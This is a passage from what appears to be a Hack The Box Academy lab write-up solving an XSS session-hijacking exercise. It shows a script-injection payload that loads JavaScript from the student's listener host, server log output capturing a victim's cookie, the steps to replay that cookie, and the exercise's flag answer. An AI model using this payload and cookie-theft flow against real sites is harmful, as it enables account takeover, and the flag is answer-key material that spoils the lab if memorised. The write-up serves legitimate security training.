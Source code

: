 Subsequently, students need to start a PHP server (using a port number other than 80, since it is already in use in Pwnbox) in `/tmp/tmpserver` where "index.php" exists and, make sure that `PWNIP` matches the one used in "script.js":

Code: php

```php
php -S 0.0.0.0:8080
```

```javascript
┌─[us-academy-1]─[10.10.14.55]─[htb-ac413848@pwnbox-base]─[/tmp/tmpserver]
└──╼ [★]$ php -S 0.0.0.0:8080

[Mon Jul 18 05:20:12 2022] PHP 7.4.21 Development Server (http://0.0.0.0:8080) started
```

Afterward, students need to use the XSS payload first used to identify the vulnerable "Profile Picture URL" parameter again:

Code: javascript

```javascript
"><script src=http://PWNIP:PWNPO/script.js></script>
```

![[HTB Solutions/CPTS/z. images/dfb8b032e56e6ee75d8fef11003c8997_MD5.jpg]]

After clicking on the "Register" button, students will notice that the PHP server listening has grabbed a cookie with the value `c00k1355h0u1d8353cu23d`:

```javascript
[Mon Jul 18 09:43:33 2022] 10.129.122.121:48154 Accepted
[Mon Jul 18 09:43:33 2022] 10.129.122.121:48154 [200]: (null) /script.js
[Mon Jul 18 09:43:33 2022] 10.129.122.121:48154 Closing
[Mon Jul 18 09:43:33 2022] 10.129.122.121:48156 Accepted
[Mon Jul 18 09:43:33 2022] 10.129.122.121:48156 [200]: GET /index.php?c=cookie=c00k1355h0u1d8353cu23d
[Mon Jul 18 09:43:33 2022] 10.129.122.121:48156 Closing
```

Thus, students need to visit `/hijacking/login.php` and add the grabbed cookie as `cookie:c00k1355h0u1d8353cu23d` under the "Storage" tab in Firefox:

![[HTB Solutions/CPTS/z. images/ab42819b5e66afceaa906005f70d3131_MD5.jpg]]

Then at last, students need to refresh the page to attain the flag:

![[HTB Solutions/CPTS/z. images/52a1eb11fde430ff5a7e9db7a01147e4_MD5.jpg]]

Answer: `HTB{4lw4y5_53cur3_y0ur_c00k135}`

# Skills Assessment

## Question 1
